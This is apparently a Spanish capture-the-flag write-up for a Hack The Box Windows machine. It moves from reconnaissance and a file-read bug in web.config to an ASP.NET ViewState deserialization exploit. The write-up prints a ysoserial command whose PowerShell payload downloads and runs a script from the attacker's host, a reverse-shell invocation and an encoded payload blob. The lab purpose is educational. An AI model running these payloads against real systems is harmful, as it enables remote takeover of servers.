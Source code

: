 ### Ping
```python
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=157 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.729/156.729/156.729/0.000 ms
```

### TTL 127= Windows
### nmap
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.52 seconds
```
obtenemos el nombre de dominio del host y lo agregamos al /etc/hosts

### Enumeración del puerto http (80)

![[Pasted image 20240310205202.png]]

### Fuzzing con wfuzz (Directorios)
no obtenemos nada interesante por el momento
![[Pasted image 20240310205503.png]]

### Fuzzing con wfuzz (Subdominios)
encontramos un subdominio sospechoso. lo agregamos al /etc/hosts
![[Pasted image 20240310210838.png]]

### Web dev.pov.htb

![[Pasted image 20240311105847.png]]

### BurpSuite
interceptamos la petición de download cv
![[Pasted image 20240310212727.png]]
cambiamos el EVENTVALIDATION= cv.pdf por = /web.config. esto nos muestra información de la pagina la cual la hace vulnerable a una explotacion de VIEWSTATE

### Vulnerabilidad Exploiting __VIEWSTATE
![[Pasted image 20240311105353.png]]
usaremos la herramienta YSoSerial.Net esta herramienta es para maquina windows asi que debes tener una maquina windows donde poder ejecutar esto (tambien puedes ejecutarlo desde kali linux pero debes complementarlo con otras herramientas)

### YSoSerial.Net
usaremos la siguiente sintax
```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.64/Invoke-PowerShellTcp.ps1')" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![[Pasted image 20240311110529.png]]

### Invoke-PowerShelltcp
ahora usaremos el invoke-powershell para invocar automaticamente esta shell. al final del codigo debemos agregar la siguiente linea 

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

![[Pasted image 20240311110955.png]]

### Servidor con python
estaremos compartiendo este archivo en un servidor con python
![[Pasted image 20240311110845.png]]

### BurpSuite
finalmente usaremos el codigo que hemos generado con el YSoSerial.Net intectandolo en el parametro **VIESTATE** 
Nota: el codigo debe ir URLEncode puede hacerlo desde burpsuite seleccionando el codigo y presionando CTRL + U 
![[Pasted image 20240311111432.png]]
### rlwrap
estaremos a la escucha con rlwrap para recibir nuestra reverse shell
![[Pasted image 20240311105747.png]]

### xml

![[Pasted image 20240311112314.png]]
En este archivo obtenemos otro Usuario llamado **alaading** y la contraseña codificada. con los siguientes comandos para obtener la contraseña

### Import-Clixml 

![[Pasted image 20240311175136.png]]


R0joNK0xfsrbj6hXJWsdR/Aunc4iwYQieYABw5V7xxaSmzHkgHGwy8/AWpbhGk%2btq7aHLsakG6Kx9X2YOZxoalUFpgLGQI0SMMt7REc9UhPTx7RwQYJ5F%2bG%2bPIrF4an95Wm4TzN1afxXl21Ks6gAr7aksLZLuM%2bqQmqWIYlRcmt7qepwSKsTQIXeij0Z3yvleKl0akkk11hY5u0Fd5iyhs1gSYksM2ad6klvG45l0KrdWndWl1yrV1OtImsSOpytC9UMkjYt3LCauyIVH3YmFFXFgFekDZpIO3UsNHxvNa/P69N24/V6jW4/H1BPh63/itiV72Z1QchzB5O4m2gwZt%2bmLZ2jkO%2b3nZRJvjYVk6S5B4VT/ava6Fk/n9UpbEym4nDri9O4QIYKnnNVyYrAkXHnKy4yKqtUBvsOqhIJjJ1VxT/SUGMMYi%2bEM/IhRiLUnUUjxgdPwXlpD2tXiZ4N6khYWNVAF6LqWv3uU3lmIFHx62PC7mR4NU5HXrl3t0Nc%2b/9%2bNIv2GpKzmt7dGO/hylmavRws7K4FOUEcgdZIqwkL3uUBpnMjR64ZB2aJMwtS4e4Y9W2NmH8Kn91cso7ZF523BHvgKANoK9crhHQnskUhQwEsmhb1FZnGs6V/1vfHUb29IJf44nPFJiGq2JFAl9%2bok1L33RUcQISatYQ5vFYRztgtePj57VsHcfS7462S6owQeflANXz5rYigDmN6zImGfsxQRbG3VoJV%2bS6V6/9xrLUaNzrgI5HmlQY3AGBANhwVD71BffEd8aHVTNaNrV4WLs6IoqZ5P/HBRMt20/TjAK07j6ri%2bUYrftMnbJXlxJAjHKOO7PXhHG2unVQb4TDDxvf9DUg/y6k5WQhr9X9iS2fEU5C8HQ97qbDezYwXNe2v0D3Bw%2bMSikiaQjpBypzQP1AtHwOB0H3H59fpYth5KYsWhVG1oACZDuhcwt6e6%2b8cfszTs7NuvBXqzcjPFWZKypB6xAFp47MFe62KaHLhUHAW1eK78ao/yz2jobzW2KUSWEERFfbHZJFmhjPBopkpjHXqnYUIW691RnZuUQpwVYqfTqGbXTNYfG2Q46hYCsLLES%2bL36EVj0PSq1etuAFFP/PWL05YndONUON5ZiyoP/laheq4VDVbKNwZ9EbQuBKhTCXnex463y6ROeY7tYuEDL4lVrQXgxaJ9I%2bikuZJZBze8TUf3Tq0PAUa9kHCxnnJOzb/dPBjHNVQSGo8NmS2Fwa8mJRLHWrjDVYDuje7Zr3A%2bLnldFnSrDRK2qY%2bJnslZGTtL2ZduI83eBGN2nWJxQ2z4FEjq5J8Ux3a3oJ1%2bmMUs3trMQLV8uZSv2Bfc4z2YG2SKpg615CcmGs9AaoCvzdDCnVu0fUkSCeeI94q9cpGmb2XGg%2bUbqVrGwp7gYYu2A%3d%3d